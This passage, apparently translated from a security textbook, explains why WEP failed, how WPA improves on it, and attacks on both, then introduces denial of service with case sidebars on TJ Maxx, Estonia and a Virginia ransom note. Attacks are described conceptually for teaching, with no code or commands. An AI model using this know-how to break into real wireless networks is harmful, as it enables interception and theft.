无线网络中的漏洞列表很长，这表明无线通信难以保护。遗憾的是，WiFi 安全几乎从诞生之初就一直存在问题，正如我们从漏洞转向对策时所见。在本章中，我们考虑同类对策的两个实例：协议。第一套协议随定义无线通信的其他协议一同引入；第二套协议是对第一套的替代，因为第一套几乎从一开始就被发现充其量只是勉强有效。因此，我们将它们表示为一个失败的对策和一个改进但不完美的对策。我们首先描述失败的那个。

## 失败的对策：WEP（有线等效隐私）

当 IEEE 标准委员会在设计启用无线数字通信的协议时，他们意识到也需要某种机制来保护这些通信的安全，因此在最初的协议设计中包含了一个对策。**有线等效隐私**，即 **WEP**，旨在让无线通信提供相当于传统有线通信的隐私保护。物理线路易于保护，因为它们可以物理上加以保障，且难以在不被发现的情况下拦截或窃听。为了使无线通信具有市场竞争力，协议设计者认为需要提供与有线通信相当的保密性。结果就是 WEP，它作为原始 `802.11` 标准的一部分于 1997 年发布。

早在 2001 年就发现了 WEP 的弱点，现在弱点严重到可用软件在几分钟内破解 WEP 连接 [BOR01]。

原始 `802.11` 无线标准试图标准化新兴的无线通信领域，因此包含关于传输、频率、设备间交互和操作的大量细节。

### WEP 安全弱点

WEP 协议旨在为用户提供对窃听和冒充攻击的免疫力，而在当时，这些并非严重威胁。（这种推理类似于说汽车发明时，防车祸不是重大关注点，因为很少有人有车。随着汽车使用增加，制造商添加了大量安全功能，如安全气囊、安全带和加强车门。WiFi 协议的适应速度较慢。）

WEP 安全涉及一些相对简单的技术，以应对预期的非复杂、低频攻击。WEP 使用客户端和接入点之间共享的加密密钥。为认证用户，接入点向客户端发送一个随机数，客户端使用共享密钥对其加密并返回给接入点。从那时起，客户端和接入点完成认证，可使用其共享加密密钥进行通信。这种看似简单的方法存在几个问题，我们现在来描述。

#### 弱加密密钥

##### WEP 安全漏洞

首先，WEP 标准允许使用 64 位或 128 位加密密钥，但每个密钥都以 24 位初始化向量 (IV) 开头，这实际上将密钥长度减少到了 40 位或 104 位。（之所以采用这些密钥长度，是因为美国政府曾强制要求用于出口的加密软件必须限制为使用不超过 40 位密钥的算法。该限制现已解除。）

用户以任何方便的形式输入密钥，通常为十六进制或字母数字字符串（随后转换为数字）。以十六进制输入 64 位或 128 位要求为客户端和接入点正确选择并输入 16 或 32 个符号。毫不奇怪，像 `C0DEC0DE`... 这样的十六进制字符串很常见（C 和 D 之间是数字零）。口令短语容易受到字典攻击。

因此，用户倾向于使用并非真正随机的密钥。这就像让年幼的孩子在 1 到 100 之间选一个数字，然后尝试猜中它。如果你确定孩子只知道 1 到 10 这几个数字，你猜中的概率就会从 1/100 提高到 1/10，尽管目标范围仍然是 1 到 100。非随机分布会扭曲正确猜测的几率。

#### 静态密钥

WEP 加密密钥在发送方和接收方之间共享。这意味着必须在接入点和远程设备处输入相同的值。虽然用户偶尔愿意在两处选择并输入密钥，但他们不想频繁这样做。因此，同一个加密密钥往往会被长期使用。

一个能够监控大量无线网络流量的专注攻击者将收集许多数据点，从中推导出密钥。如果密钥频繁更换，旧密钥的数据点对推导新密钥毫无帮助，但不经常更换的密钥则允许从大量数据点中进行推导。因此，很少更换的密钥会增加攻击者推导出密钥的几率。

#### 弱加密过程

即使密钥很强，由于算法中使用密钥的方式，其有效长度实际上也只有 40 位或 104 位。针对 40 位密钥的暴力破解攻击能迅速成功。即使对于 104 位版本，`RC4` 算法及其使用方式中的缺陷（参见 [BOR01、FLU01 和 ARB02]）也会击败 WEP 安全性。诸如 `WEPCrack` 和 `AirCrack-ng` 之类的工具允许攻击者破解 WEP 加密，通常只需几分钟。在 2005 年的一次会议上，FBI 演示了破解 WEP 保护的无线会话是多么容易。

#### 弱加密算法

WEP 的第三个问题是其执行加密的方式。WEP 不直接将 `RC4` 用作加密算法；相反，`RC4` 根据 24 位初始化向量和 40 位密钥生成一长串称为密钥序列的随机数。WEP 使用异或函数将密钥序列与数据结合。不幸的是，如果攻击者能猜出任意单个加密帧的解密值，将该值输入异或函数就会泄露该段密钥序列。所有消息都重复使用相同的密钥序列，因此该片段将在相同位置重复出现。IV 以明文形式传输，因此攻击者可以拦截它以进行穷举密钥搜索攻击。其他已知问题涉及异或运算的使用。

#### 初始化向量冲突


WEP 最后一个加密问题涉及初始化向量，它构成了加密密钥的前 24 位。这 24 位按可预测的模式循环，直到用完所有 24 位模式（约 1600 万次迭代），此时初始化向量恢复为第一个值并重新开始循环。至少理论上是这样。实际上，某些初始化向量值会陷入循环而永不改变，而其他值则不会遍历所有 1600 万种 24 位模式。而且前几次变化并非完全随机，而是具有一定的可预测性。

感兴趣的攻击者可以在几小时内测试所有 1600 万个可能的初始化向量，而诸如不变的（所谓弱）初始化向量等弱点进一步减少了测试次数，从而加快了搜索速度。

### 错误的完整性检查

仿佛加密问题还不够，WEP 并未设计为提供强完整性保护。正如你所知，无线通信容易遭受数据丢失和干扰。因此，协议设计者包含了一个检查值，以证明帧是否完整到达，或者在传输过程中是否有位丢失或意外改变。接收方重新计算检查值，如果不匹配，则发出传输错误信号并请求重发另一份副本。

完整性检查使用一种著名的算法。如果恶意攻击者想要修改通信的某一部分，攻击者只需修改数据，计算新的完整性检查值，并用新值替换原始检查值。因此，当帧到达时，新的检查值将与修改后的数据匹配，接收方将不会察觉数据值已被恶意修改。

### 无认证

WEP 协议的最后一个缺陷是它没有认证机制。任何能够说出正确 SSID 并呈现正确 MAC 地址的设备都被视为合法设备。正如我们所见，即使不广播 SSID，它也可在其他帧中获取，MAC 地址也是如此，因此攻击者可以轻松呈现 SSID 并重新配置网卡以指示必要的 MAC 地址。因此，攻击者伪造有效网络节点几乎不受阻碍。

***

**WEP 使用短小且不经常更换的加密密钥，不需要认证，且其完整性极易被破坏。**

***

### 结论：WEP 安全性不可接受

所有这些 WEP 缺陷都是基本 WEP 协议的局限性。在 WEP 标准推出几年内，研究人员（参见 [FLU01] 和 [ARB02]）就编写出了实际演示程序，展示了在几分钟内推导出 RC4 密钥的能力。正如侧边栏 6-13 所述，这些弱点不仅仅是理论上的；攻击者实际利用了这些漏洞并攻破了无线系统，导致大量敏感数据丢失。WEP 协议设计未能有效使用密码学，无法执行认证，缺乏对故意修改的有效控制，也无法保证授权用户的可用性。由于协议本身存在这些缺陷，任何改进的实现或安全使用模式都无法弥补。

## 更强大的协议套件：WPA (WiFi Protected Access)

WEP 协议套件于 1997 年发布，1999 年批准，这意味着实现 WEP 的产品大约在 1999 年左右开始出现。在 1995 年 sci.crypt 讨论组的帖子中，Wagner [WAG95] 和 Roos [ROO95] 独立发现了 RC4 密钥结构中的问题，但由于 RC4 在被纳入 WEP 标准之前并未被广泛使用，这些问题未被广泛研究。

***

### 侧边栏 6-13 TJ Maxx 数据窃取案

2005 年，一个由 11 名黑客组成的团伙从服装店 TJ Maxx 和 Marshalls 及其商业合作伙伴处窃取了超过 4500 万个信用卡和借记卡号码；罪犯从未踏入店内一步。

窃贼在一家 TJ Maxx 商店外架设天线，拦截手持扫描设备、收银机和商店无线网络上计算机之间的无线通信。利用一个形似望远镜的天线，配备简单笔记本电脑的人可以在距离接入点数英里外拦截 WiFi 信号。这些窃贼就在停车场作案。

该网络使用了易受攻破的 `WEP` 协议进行保护，尽管 `WEP` 的严重安全漏洞早在数年前就已被演示并记录在案。

从无线拦截中获取的数据不仅包括交易详情，还包括更重要的账户登录 ID 和密码，这些信息让犯罪团伙得以在网络中安装嗅探器，并入侵拥有 `TJ Maxx` 和 `Marshalls` 的母公司的中央数据库。

来自 `Miami` 的 `Albert Gonzales` 于 2010 年 3 月被判犯有组织该团伙的罪行，该团伙成员还包括两名其他美国公民、三名俄罗斯人、两名中国人，以及各一名来自 `Estonia` 和 `Belarus` 的人员。`Gonzales` 被判处 20 年监禁。

然而，`TJ Maxx` 并非唯一脆弱的零售商。2009 年，`Motorola` 的 `Air Defense` 部门对全球主要城市的零售商进行了调查，包括 `Atlanta`、`Boston`、`New York City`、`Paris`、`Seoul` 和 `Sydney`。根据他们 2009 年 1 月 28 日的新闻稿，他们发现 44% 的零售商无线网络和设备可能被攻破。32% 的时间里，商店内的无线网络未采用加密，而 25% 的网络使用了薄弱的 `WEP` 安全技术。

从这些城市和 `Gonzales` 团伙成员的国籍可以看出，计算机安全是一个国际性问题。攻击目标确实广泛存在，大量脆弱的网络吸引了来自各种背景的有能力的攻击者。

不幸的是，一些零售商开始使用无线技术仅用于传输低敏感度信息，如库存数据。然而，当他们扩展网络应用并开始传输更敏感的数据时，却忘记或忽视了使用弱安全所带来的风险。因此，每当系统的用途、架构或实现发生变化时，都必须审查安全性。

***

### 侧边栏 6-14 言必行，行不必言

你会期望计算机安全专业人员的会议遵循最佳安全实践。不，那只是他们建议别人做的，不是他们自己做的。

在 2010 年 `RSA Security Conference`（吸引了许多计算机安全从业者和行业领袖）上，`Motorola` 的 `Air Defense` 部门扫描了无线电波，以查看谁连接了什么。他们观察到 2,000 多个连接。他们发现 [WIL10] 有 116 个客户端以点对点方式连接到了诸如“Free Public WiFi”和“Free Internet Access”这样危险的 `SSIDs`。点对点连接（称为自组网）是连接到另一台计算机，不一定连接到接入点和服务器。

更糟糕的是，发现的 62% 的网络正在运行 `WEP` 协议或更强但仍有缺陷的 `TKIP` 协议，这距离 `WEP` 的不安全性被令人信服地证明已近十年，距离 `TKIP` 的一个漏洞（本章后面将描述）被公开也已近五年。

`Motorola` 并未追踪使用弱安全设备的具体情况，因此没人知道其中有多少是用户的机器，多少是展厅里的演示机器。尽管如此，人们不禁要问：这些统计数据对公众使用最佳安全实践的情况说明了什么？

***

首批关于严重 `WEP` 弱点的迹象发表于 2001 年，距离 `WEP` 协议正式通过仅两年。如此短暂的时期可能有多种原因。当然，1997 年生效的加密强度限制限制了协议开发者的安全选项。此外，低估针对一种新的、因此未被使用的技术的威胁严重性，可能导致协议设计者采取了简易的方法。当 `WEP` 的缺陷于 2001 年发表时，很明显 `WEP` 不是 `WiFi` 的适用协议。（唉，正如侧边栏 6-14 所述，甚至专家也未能实践强安全。）

基于这些原因，`IEEE` 于 2001 年开始为无线网络设计新的认证和加密方案，我们将在下一节解释。

`WEP` 的替代方案是 **WiFi Protected Access** 或 **WPA**，设计于 2003 年。`IEEE` 标准 `802.11i`，称为 `WPA2`，于 2004 年获批，是 `WPA` 的扩展。虽然名称 `WPA2` 是正确的，但该标准非正式地被称为 `WPA`。^(1) `WPA` 如何改进 `WEP`？

1. 严格来说，两者有区别：`WPA` 是 `WEP` 的最初替代品；`WPA2` 通过要求支持强 `AES` 加密算法，超越了 `WPA`。此外，要使用商标“WiFi Certified”标识，设备必须通过 `WiFi` 联盟的认证。实际上，现在销售的所有 `WiFi` 设备都符合 `WPA2` 标准。本书遵循通用惯例，使用 `WPA` 同时指代 `WPA` 和 `WPA2` 协议。

#### WPA 相对于 WEP 的优势

`WPA` 旨在克服 `WEP` 当时已知的缺陷，因此 `WPA` 的许多功能直接针对 `WEP` 的弱点。以下是 `WPA` 优于 `WEP` 的几个方面。

##### 非静态加密密钥

首先，`WEP` 使用的加密密钥保持不变，直到用户在客户端和接入点输入新密钥。密码学家痛恨静态加密密钥，因为固定密钥给攻击者提供了大量密文供其分析，并留出了充足的分析时间。`WPA` 采用了一种密钥更换方法，称为 **Temporal Key Integrity Program** (**TKIP**)，通过该方法，加密密钥在每个数据包上自动更改。

`WPA` 还使用密钥层级为每个会话建立新密钥。这些密钥允许接入点（称为认证方）和连接设备（称为申请方）创建并交换专用于该关联会话的保密性和完整性密钥。

##### 认证

其次，`WEP` 不安全地使用加密密钥作为认证手段。`WPA` 采用可扩展认证协议 (`EAP`)，通过该协议，认证可以通过密码、令牌、证书或其他机制完成。对于小型网络（家庭）用户，这可能仍意味着共享密钥，这并不理想。用户倾向于选择弱密钥，例如简短的数字或易受字典攻击的口令。

##### 强加密

`WEP` 的加密算法是 `RC4`，它在密钥长度和设计上都存在加密缺陷 [ARB02]。在 `WEP` 中，`RC4` 的初始化向量只有 24 位，大小太小以至于冲突常见；此外，`WEP` 不检查初始化向量重用。

`WPA2` 增加了 `AES` 作为可能的加密算法（尽管为兼容性仍支持 `RC4`）。`AES`（见第 2 章）是一种强得多的加密算法，部分原因是它使用了更长的加密密钥（将穷举搜索的时间从天数增加到千万年）。

##### 完整性保护

`WEP` 包含一个独立于数据部分的 32 位完整性检查。但由于 `WEP` 加密易受密码分析攻击 [FLU01]，完整性检查也易受攻击，因此攻击者可以在不知道相关加密密钥的情况下修改内容及相应的检查值 [BOR01]。`WPA` 包含一个经过加密的 64 位完整性检查。

##### 会话启动

`WPA` 和 `WPA2` 的建立协议比 `WEP` 的健壮得多。`WPA` 的建立涉及三个协议步骤：认证、四次握手（确保客户端能生成加密密钥，并为双方生成和安装加密及完整性密钥），以及可选的组密钥握手（用于组播通信）。`Lehembre` [LEH05] 对 `WPA` 协议提供了很好的概述。

WPA 和 WPA2 解决了 WEP 中已知的安全缺陷。Arazi 等人 [ARA05] 为无线传感器网络中的公钥密码学提出了有力论据，类似的论点也适用于其他无线应用（尽管公钥加密较大的计算需求是处理器能力有限的无线设备的一个限制因素）。WEP 的使用正在减少，取而代之的是 WPA，详见 Sidebar 6-15。

***

**WPA 通过使用更强的加密、更长且变化的密钥以及安全的完整性检查，修复了 WEP 的许多缺陷。**

***

### Sidebar 6-15 WPA 取代 WEP

自 2004 年推出以来，WPA 的使用率稳步增长。2008 年，香港专业信息安全协会通过战争驾驶、监控和编目可发现的接入点进行了一项调查。他们确定，在香港和澳门发现的 10,000 多个接入点中，43% 使用 WEP，40% 使用 WPA。

RSA Security 也在 2008 年对主要商业中心进行了调查。他们发现，在所调查的接入点中，纽约市 WPA 或 WPA2 的使用率为 49%，巴黎为 71%，伦敦为 48%。

尽管 WPA 的使用率在全球范围内持续增长，但考虑到 WPA 相对于 WEP（甚至相对于完全没有安全措施）的重大安全优势，其采用率的增长却异常缓慢。

***

### WPA 遭受的攻击

WPA 协议套件推出后不久，研究人员就发现并描述了缺陷。

#### 中间人攻击

Mishra 和 Arbaugh [MIS02] 指出了 WPA 协议设计中的两个潜在缺陷。第一个称为中间人攻击（我们在 第 4 章 中展示了其他中间人攻击的示例），当狡猾的攻击者能够介入合法对话、拦截并可能篡改双方通信，以秘密获取或修改受保护数据时，就会利用该漏洞。Mishra 和 Arbaugh 的攻击利用恶意中间人劫持会话，即外部人员替换合法用户并以该用户的权限继续会话。

该攻击通过 MAC 地址欺骗攻击得逞。在设备与接入点的关联序列期间，设备提交凭据进行认证，接入点发送消息确认认证。此时，恶意中间人将其 MAC 地址更改为接入点的地址，并向设备发送解除关联请求。解除关联是任一方终止关联的一种方式，可能因活动完成、过载或其他原因发生。请求设备停止关联并重新开始关联过程；同时，恶意外部人员将 MAC 地址更改为已解除关联设备的地址，并像原始用户一样继续与接入点保持关联。

允许此攻击的问题是帧缺乏完整性保护；因此，来自流氓主机的解除关联消息不会被识别为非真实消息。

#### 不完整的认证

针对 WPA 的第二种攻击指出了认证序列中相关的弱点。

在某个时刻，申请者（客户端）需要向接入点进行认证，但申请者无法确信接入点是合法的，即无法确信没有恶意方发送信号伪装成接入点。因此，申请者可能被迫向未经授权的第三方透露认证数据。

回顾我们在 第 3 章 中关于程序中相互怀疑重要性的讨论：每个例程都需要怀疑与其交互的所有其他例程可能是有故障或敌对的。假设的攻击展示了未能行使相互怀疑的一个例子。

#### 穷举密钥搜索

密码学的一个已知局限性是，可以搜索整个可能的加密密钥空间以找到正确的密钥。应对这种攻击的对策是使用长密钥，使得所需搜索的密钥数量高得令人望而却步。56 位 DES 密钥已被证明对拥有大量计算能力的对手是脆弱的，1996 年一个密码学家小组 [BLA96] 建议高安全性密钥应为 100 位或更长。此建议取决于密钥真正随机；正如使用 `aaaaaa` 作为密码一样，使用任何可预测的模式数字都会削弱密钥。由于密钥选择至关重要，WPA 的密钥管理受到了审查。WPA 使用 256 位基础密钥，这似乎足够长以保证安全。

为了在接入点和设备之间建立共享密钥，管理员必须正确输入两次一个非常大的数字，一次用于接入点，一次用于设备。为了简化大数字的输入，许多 WPA 实现允许使用口令，即一串字符，然后将其转换为数字。Moskowitz [MOS03] 观察到人们倾向于不完全随机地选择字符串，因此使用流行字符串的猜测攻击比全面穷举搜索更快成功。然而，Moskowitz 指出，WPA 将口令转换为加密密钥的算法（在计算上）耗时较长，这降低了攻击者测试大量潜在口令作为密钥的能力。

类似的攻击取决于人们选择了简短的口令，因为穷举攻击会有序地遍历所有一字符潜在口令，然后是两字符，依此类推。

最后，2008 年，研究人员 Martin Beck 和 Erik Tews [BEC08] 展示了一种针对 WEP 特性的攻击，该特性被带入了 WPA（但不包括 WPA2）。该攻击破坏了加密内容的完整性。我们已经描述了 WEP 使用的 RC4 算法的不安全性，该算法应用 40 位或 104 位密钥，而 Tews-Beck 攻击在那里发现了另一个弱点。研究人员还用他们的技术攻击 WPA，他们称之为 `chopchop`，因为他们切掉并替换一个块的一个字节，并观察该块完整性的变化。通过反复切割和替换，他们推断出完整性密钥。该攻击破坏了原始 WPA，因为它使用了一种称为 TKIP（临时密钥完整性协议）的完整性机制，该机制旨在与 WEP 兼容。这种复杂的攻击对攻击者知道部分底层明文数据的短数据块最有效；攻击结果使攻击者能够用其他数据替换某些数据包而不被检测到。Ohigashi 和 Morii [OHI09] 通过使其更快改进了该技术。

此攻击之所以重要，是因为它展示了一个以前未知的漏洞。然而，它仅导致 WPA 流中某些数据包被成功攻击。它并不从根本上破坏 WPA 或 TKIP，更重要的是，它对使用 AES 算法的 WPA2 无效。

### 结论：WPA 足够安全

已识别的漏洞发生在受限情况下，不影响大多数用户或 WPA。在选择加密密钥时小心谨慎，可确保其足够长且随机，从而免疫猜测攻击。

比 WPA 算法套件中的任何弱点更严重的是人们在没有保护的情况下通信的数据量。用户数据保护是一个应用程序问题，而非网络问题，因此这是用户和程序需要解决的问题。

## 6.4 拒绝服务

到目前为止，本书几乎完全专注于保密性和完整性攻击，无论是在传统计算还是网络中。我们的对策工具包在很大程度上依赖于认证、访问控制和加密这三大支柱，以及防御性编程、隔离和最小权限等专用工具。现在我们转向一种在网络中尤为强大的安全漏洞：拒绝服务，即可用性的丧失。为了应对此类威胁，我们发现需要一套截然不同的对策。

拒绝服务对依赖计算进行客户交互以及库存管理和调度等后端功能的商业公司来说是毁灭性的。政府持续将服务转移到网络上，因此访问失败意味着公民无法处理日常的政府事务。电子病历的最新进展带来了优势，但随着对该数据管理模式的依赖程度加深，没有数据访问权限将使治疗患者变得危险。从交通信号灯到卫星的设备计算机化控制意味着，服务故障也可能导致物理世界出现严重并发症。基于这些原因，我们将探讨拒绝服务的成因和对策。

### 示例：大规模爱沙尼亚网络瘫痪

我们以一个大规模服务攻击的示例开始本节。尽管该攻击的实施者至今未知，但很明显这是一起具有政治动机的攻击。

爱沙尼亚共和国官员决定于 2007 年迁移一座名为“青铜士兵”的纪念碑，该碑纪念俄罗斯在第二次世界大战中的参与。俄罗斯民众视此举为对俄罗斯的冒犯，围堵了莫斯科的爱沙尼亚大使馆，爱沙尼亚国内也爆发了抗议活动，该国拥有大量俄罗斯族少数民族。

示威活动开始几乎立即，爱沙尼亚网站遭到大量流量轰炸，速率达 100–200 兆比特/秒。尽管最近的攻击量已达到该体量的 1000 倍，但在 2007 年，100 兆比特/秒的流量是前所未闻的。

受攻击的网站包括：

- 总统府
- 议会
- 许多政府部门
- 政党
- 主要新闻机构
- 主要银行
- 电信公司

攻击始于雕像迁移后的 4 月 27 日，并持续了数天。在 5 月 8 日至 9 日期间，俄罗斯庆祝其在二战中战胜纳粹，攻击再次激增，并在 5 月中旬再次升级，随后最终平息。

爱沙尼亚是世界上计算机化程度最高的国家之一，并开创了电子政府；主要政府和商业网站近一个月的瘫痪严重影响了其公民开展业务的能力。


爱沙尼亚计算机应急响应小组确定攻击主要来自爱沙尼亚境外。专家迅速采取行动关闭受攻击网站，并实施其他控制措施限制入站流量。欧盟和美国的应急响应小组受邀协助应对攻击 [[VAM07]](#bib01.html#bib_632)。

无法精确定位攻击源头。此类攻击的源头通常不清晰，因为确定流量最近从何处路由过来，并不等同于确定攻击的原始源头。尽管爱沙尼亚外长指责克里姆林宫参与其中，但国防部长承认没有确凿证据证明这一点。一名俄罗斯人在爱沙尼亚因在攻击中扮演次要角色被判有罪。关于攻击的策划、协调和发动责任，至今未确定，未来大概率也永远无法确定 [[EVR09]](#bib01.html#bib_185)。

> **拒绝服务攻击的源头通常难以或无法确定。**

孤立事件？并非如此。2013 年 1 月，《纽约时报》网站遭受大规模拒绝服务攻击，《华盛顿邮报》和《华尔街日报》网站也遭殃。据称这些网站是受到与中国有关联的黑客攻击。2013 年 8 月，一个自称“叙利亚电子军”的组织据称关闭了《纽约时报》网站的访问长达 20 小时。2014 年 6 月，同一组织据称将《路透社》读者从一篇描述叙利亚袭击的报道重定向到一条报告该网站被黑客入侵的消息。为政治目的实施的拒绝服务是一种强有力的工具。金融机构也遭受了来自未知源头的攻击。

**拒绝服务**，或 **DoS**，攻击是一种旨在破坏可用性的尝试，可用性是计算机安全中需保护的三大基本属性中的第三项。拒绝服务正如其名：用户被拒绝访问授权服务或数据。保密性和完整性关注防止未授权访问；可用性关注保持授权访问。

保密性和完整性倾向于二元性：数据或对象要么被保持私密和未修改，要么没有；可用性可能更细微，可能有服务但数量不足，或响应速度不可接受。你知道网页加载需要几秒钟，但随着时间的推移，你会变得更加沮丧或怀疑它永远不会显示；然后，它突然出现，你会纳闷为什么花了这么长时间。因此，拒绝服务的范围从完全失去访问权限，到明显且不可接受的延迟，再到单纯的不便。

### 服务为何被拒绝

本节描述导致拒绝服务的原因。许多原因是非恶意的，且通常是零星和自发的，对此很难采取措施。我们关注恶意原因，因为这些是可以应对的。幸运的是，几类对策对恶意拒绝服务攻击有效。首先，我们考虑一些原因。

思考一下你可能如何在计算机网络中拒绝访问。

- 一个潜在弱点是系统容量。如果需求高于系统处理能力，部分数据将无法在网络中正常传输。这些攻击也称为 **基于容量** 或 **容量型** 攻击。

- 类似于压垮基本网络容量，攻击也可能耗尽服务特定网络的应用程序，这称为 **基于应用** 攻击。

- 拒绝服务的另一种方式是切断或禁用两点间的通信链路。许多用户将无法接收服务，特别是当该链路是大量流量必须通过的单一节点时。

- 导致访问被拒的最后一个原因是硬件或软件故障。虽然类似于通信链路故障，但此处的问题涉及机器或程序，防护可涉及容错等概念。

> **DoS 可能由过量流量、应用故障、链路切断或硬件/软件故障引起。**

#### 洪水攻击

想象一下，一位老师身处一个挤满了六岁孩子的教室里。每个孩子都要求老师的关注。起初，老师听到一个孩子的声音并给予关注。接着第二个孩子呼唤，老师将注意力转向那个孩子，同时试图记住第一个孩子需要什么。看到呼唤有效，第三、四、五个孩子也大声哭喊着要老师，但这让其他同样要求关注的孩子感到沮丧。当然，每个呼唤的孩子声音都比前一个大，很快教室里变成了一片孩子们尖叫的嘈杂声，导致老师除了让他们全都安静下来、轮流等待、保持耐心（这些对六岁孩子来说都不自然）之外，无法做任何事情。老师因应接不暇的需求而不堪重负，唯一的解决办法就是驳回所有当前的需求并重新开始。

攻击者可以通过以服务器处理命令的速度更快地发送命令，来尝试达到同样的过载效果；服务器通常在过载时段将未满足的命令排队，以便在高峰过去后处理，但如果命令持续到来过快，服务器最终会耗尽存储需求的空间。这种攻击称为**过载**或**洪水攻击**。

洪水攻击的目标可以是一个应用程序，例如数据库管理系统；一个操作系统或其组件之一，例如文件服务器或打印服务器；或一个网络设备，如路由器。或者，洪水攻击可以针对某个资源，例如内存分配表或一个网页。在迈克尔·杰克逊去世的那天，谷歌收到了如此多关于他的查询，以至于谷歌工程师以为他们正遭受攻击，并采取了规避措施，结果具有讽刺意味地限制了对谷歌新闻服务的访问。拒绝服务洪水攻击可称为**容量型**，意指它仅旨在饱和或耗尽关键电信链路的容量。

***

**洪水攻击源于超出容量的需求，原因可能是恶意的，也可能是自然的。**

***

#### 阻断访问

作为另一个物理类比，考虑一起交通事故，它阻塞了一条繁忙的双向两车道道路的双向交通。当司机们开始在事故后排队时，某个时刻有一位司机认为正确的做法是驶入对向车道，绕过所有停下的车辆，很自然地，其他人立即跟进。他们开到事故地点不得不停下。随后发生的是，事故地点的双侧各自积聚了两车道的交通流，这意味着警车和其他应急车辆无法穿过双向两条实心的车队到达事故现场。即使故障车辆被推离道路清理了事故现场，所有车道都挤满了无法移动的车辆，因为前后都没有空间。

在计算机安全中，攻击者可能只是简单地阻止服务运行。攻击者可以利用应用程序中的软件漏洞导致应用程序崩溃。或者攻击者可以干扰网络路由机制，阻止访问请求到达服务器。另一种方法是攻击者操纵访问控制数据，删除资源的访问权限，或禁用访问控制机制，使得无人能获批访问。在侧边栏 6-16 中，攻击者声称他删除了一个重要数据库的原始副本，并加密了一个备份副本，以此勒索赎金。

#### 访问失败

无论是恶意还是非恶意，硬件和软件都会不时发生故障；当然，这种非恶意故障似乎总是发生在关键时刻。软件因缺陷停止工作，或硬件设备磨损或莫名其妙地停止。故障可能是间歇性的，意味着它会自行消失或自行纠正，也可能是永久性的，源于故障组件。

***

##### 侧边栏 6-16 弗吉尼亚州数据库被勒索

2009 年 5 月，弗吉尼亚州官员收到一张勒索信，要求支付 1000 万美元以释放一个包含 830 万州居民药品处方记录的州数据库。该数据库存有自 2003 年以来联邦管制药品处方的副本。

勒索信：

> 弗吉尼亚州注意
>
> 我掌握着你们的 s\[已审查\]！目前在我\*手中\*有 8,257,378 份患者记录，总计 35,548,087 份处方。此外，我制作了一个加密备份并删除了原件。不幸的是，弗吉尼亚州的备份似乎也丢失了。哎呀 :(
>
> 只要 1000 万美元，我将乐意发送密码。你们有 7 天决定。如果 7 天结束时你们决定不掏钱，我就把这东西拿到市场上去，卖给出价最高的人。我不知道这些\[已审查\]值多少钱，也不知道谁会买，但我赌有人会买。见鬼，如果我卖不掉处方数据，至少我能找个买家买个人身数据（姓名、年龄、地址、社会安全号、驾照号）。（Brian Krebs，《华盛顿邮报》Security Fix 博客，2009 年 5 月 4 日）

尽管攻击者声称他删除了原件，制作了一个加密备份副本，并删除了所有其他备份，但州官员能够从备份副本恢复数据库，并能毫无困难地访问它。弗吉尼亚州卫生专业部主任 Sandra Whitley Ryals 表示：“我们确信所有数据都已妥善备份，且这些备份文件已得到保护。”（WHSV TV，弗吉尼亚州里士满，来自 WHSV.com，2009 年 5 月 6 日）因此，勒索要求似乎是一场骗局。尽管如此，移除敏感数据并勒索赎金是阻断访问的一种潜在有效手段。

***

因此，针对可用性的三大根本威胁是：

- 容量不足；过载

- 阻断访问

- 组件无响应

攻击者将尝试通过利用针对这些威胁类型的漏洞来实现它们。在下一节中，我们将探讨其中一些潜在漏洞。在侧边栏 6-17 中，我们描述了一起由多种因素共同导致的事件——没有任何恶意因素——包括组件老化、陈旧的网络设计和有缺陷的通信协议。

***

##### 侧边栏 6-17 贝斯以色列女执事医疗中心系统瘫痪

2002 年，波士顿的贝斯以色列女执事医疗中心被《Information Week》评为美国 500 家顶级创新 IT 团体中的第 16 名。同年，该医院遭遇了一起拒绝服务事件，迫使整个医院退回到多年前已弃用的纸质表单 [BER03]。

2002 年 11 月 13 日（周三），注意到的第一个症状是通常即时送达的电子邮件需要十秒才能发送。网络工程师观察到，一个核心网络交换机因来自未知源的突然流量激增而饱和。为了应对这种来自未知原因的流量，工程师们开始拆解网络，关闭连接以简化网络中的流量流动，并帮助确定问题源头。后来工程师们得知，关闭网络部分实际上加剧了问题。

###### 网络故障案例分析：生成树协议环路

事后发现，网络抖动是由**生成树协议环路**引起的。医院的网络架构包含许多交换机，每台交换机都使用**生成树算法**，本质上是一张通往网络中每个已知目的地的最短路径图。每台交换机负责测试其连接并与相邻交换机通信，以构建自己的生成树。但为了避免无限循环（节点 A 判断到达节点 C 的路径是先经过节点 B，而节点 B 认为更好的路径是经过节点 A，导致通信在节点 A 和 B 之间无限循环），算法将路径长度计算上限设为 7 跳。在 Beth Israel 医院，一次超大数据传输陷入了一个更长的环路，导致流量显著减缓。但当工程师开始切断电路时，这些操作导致所有交换机尝试重新计算其生成树路径，这反过来又减缓了流量，并导致工程师切断更多链路，进而引发更多交换机重新计算。

问题的很大一部分在于，网络设计适用于 1996 年初始安装时的情况，但网络架构并未升级以适应重大扩展（Beth Israel 引入几家区域医院加入其 IT 网络）或技术进步（路由器在具有复杂连接性的大型网络段中取代了交换机）。1996 年的网络在 2002 年低压力时段运行尚可，但一次大规模网络流量爆发淹没了网络，导致所有用户无法及时访问。

实验室检查申请、患者病历、处方医嘱、数字 X 光结果、账单记录——所有本可轻松电子化处理的数据突然停止工作。11 月 14 日周四，管理层决定放弃整个电子系统，以便网络工程师完全访问网络。医院恢复使用纸质表单，显然更慢且更繁琐。但即便如此，网络拥堵严重到难以梳理其 25,000 个节点的连接情况。医院请来网络设备供应商 Cisco 协助重新设计和实施网络。周末期间，医院和 Cisco 工程师测试组件和网段，并用不受生成树问题影响的路由器替换了交换机。到 11 月 18 日周一，新网络可靠运行，用户重新使用 IT 网络而非纸质记录。

该事件发生于 2002 年，但该漏洞依然具有现实意义。组织不愿重新设计和实施随时间增长的复杂网络；成本和不便是维持现状的两大动力。但随着人员流动，人们会忘记网络的架构和设计原理，因此维护往往尽量保持原样。正如该例所示，这种策略的生命周期是有限的，且往往导致灾难性后果。

---

如侧边栏 6-17 所示，拒绝服务可能源于恶意或良性原因。在事件初期，很难区分故意攻击与随机硬件或软件故障。此外，如本案所示，多个单独不足以造成问题的原因可能以一种严重的方式相互作用。然而，对于管理员来说，剥离出各个单独原因颇具挑战，尤其是在面临让故障系统恢复运行的紧迫问题时。

---

> **如果网络正常运行，管理员倾向于增量式扩展，而不是重新设计以应对使用量增加。**

---

从导致服务失败的三个基本原因——缺乏容量或过载、访问受阻、组件无响应——我们现在转向识别可能导致这些故障的漏洞。

#### 洪水攻击详解

